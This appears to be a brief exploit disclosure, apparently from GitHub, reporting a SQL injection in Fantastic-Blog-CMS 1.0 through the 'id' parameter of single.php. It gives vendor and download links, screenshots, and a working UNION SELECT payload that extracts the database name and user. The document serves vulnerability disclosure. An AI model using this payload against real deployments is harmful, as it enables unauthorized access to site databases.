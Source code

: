 * Exploit Title: Fantastic-Blog-CMS 1.0-SQL Injection
* VULNERABLE:  An attacker can inject query in "/fantasticblog/single.php" via the "id=5" parameters.
* Vendor Homepage：https://www.sourcecodester.com/php/12258/fantastic-blog-cms-php.html
* Software Link:https: https://www.sourcecodester.com/download-code?nid=12258&title=Fantastic+Blog+%28CMS%29+in+PHP+with+Source+Code
* Version: 1.0
* Vulnerable file: single.php

![image](https://user-images.githubusercontent.com/57030243/160570899-903e2efc-1df8-4d56-ad23-23378d4c98f2.png)
* Vulnerability proof ：
payload:id=' union select 1,database(),3,user(),5,6,7,8,9--+-

![image](https://user-images.githubusercontent.com/57030243/160573362-bdb4011a-b3c8-4621-868e-30469ba9acec.png)
![image](https://user-images.githubusercontent.com/57030243/160571679-d267b43c-f3ec-41be-a34f-03a2693ccccf.png)


